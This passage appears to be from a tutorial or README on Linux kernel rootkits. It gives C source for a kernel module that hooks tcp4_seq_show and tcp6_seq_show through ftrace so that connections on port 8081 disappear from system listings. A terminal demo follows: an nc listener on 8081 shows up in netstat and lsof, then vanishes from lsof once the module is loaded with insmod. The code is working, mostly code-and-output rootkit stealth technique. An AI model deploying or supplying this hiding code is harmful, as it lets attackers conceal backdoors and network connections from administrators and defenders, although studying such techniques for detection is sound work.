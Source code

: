 ```c
    ret = orig_tcp4_seq_show(seq, v);
    return ret;
}

static asmlinkage long hooked_tcp6_seq_show(struct seq_file *seq, void *v)
{
    long ret;
    struct sock *sk = v;

    if (sk != (struct sock *)0x1 && sk->sk_num == PORT)
    {
        printk(KERN_DEBUG "Port hidden!\n");
        return 0;
    }

    ret = orig_tcp6_seq_show(seq, v);
    return ret;
}

static struct ftrace_hook new_hooks[] = {
    HOOK("tcp4_seq_show", hooked_tcp4_seq_show, &orig_tcp4_seq_show),
    HOOK("tcp6_seq_show", hooked_tcp6_seq_show, &orig_tcp6_seq_show),
};


static int __init hideport_init(void)
{
    int err;
    err = fh_install_hooks(new_hooks, ARRAY_SIZE(new_hooks));
    if(err)
        return err;

    return 0;
}

static void __exit hideport_exit(void)
{
    fh_remove_hooks(new_hooks, ARRAY_SIZE(new_hooks));
}

module_init(hideport_init);
module_exit(hideport_exit);
```

Basically when the system tries to list TCP connections, tcp4_seq_show or tcp6_seq_show are called, but with hooks, these calls are redirected to hooked_tcp4_seq_show or hooked_tcp6_seq_show, which check the connection port (stored in the sock structure); if the port is 8081, the function returns 0, hiding the connection, while for the other ports the original functions are called, ensuring the normal display of the TCP connection.

```
dumbledore@infect:~$ nc -lvnp 8081 &
[1] 56634
listening on [any] 8081 ...
dumbledore@infect:~$
dumbledore@infect:~$ netstat -tunlpd |grep 8081
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
tcp        0      0 0.0.0.0:8081            0.0.0.0:*               LISTEN      56634/nc
dumbledore@infect:~$ lsof -i -P -n |grep 8081
nc        56634 kali    3u  IPv4 885312      0t0  TCP *:8081 (LISTEN)
dumbledore@infect:~$
dumbledore@infect:~$ sudo insmod mtz.ko
dumbledore@infect:~$ lsof -i -P -n |grep 8081
```